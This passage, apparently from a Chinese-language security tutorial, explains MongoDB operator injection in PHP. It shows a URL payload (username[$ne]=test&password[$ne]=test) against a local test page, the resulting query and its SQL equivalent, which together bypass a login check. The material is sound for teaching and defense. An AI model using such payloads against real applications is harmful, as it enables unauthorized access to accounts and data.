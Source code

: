 而 mongodb 对于多维数组的解析使最终执行了如下语句：

> db.test.find({username:{'xx':'test'},password:'test'});

利用此特性，我们可以传入数据，是数组的键名为一个操作符（大于，小于，等于，不等于等等），完成一些攻击者预期的查询。

如，传入 url:

> http://127.0.0.1/2.php?username[$ne]=test&password[$ne]=test

结果如图

![enter image description here](img/img3_u116_jpg.jpg)

因为传入的键名$ne 正是一个 mongodb 操作符，最终执行了语句：

> db.test.find({username:{'$ne':'test'},password:{'$ne':'test'}});

这句话相当于 sql:

> select * from test where username!='test' and password!='test';
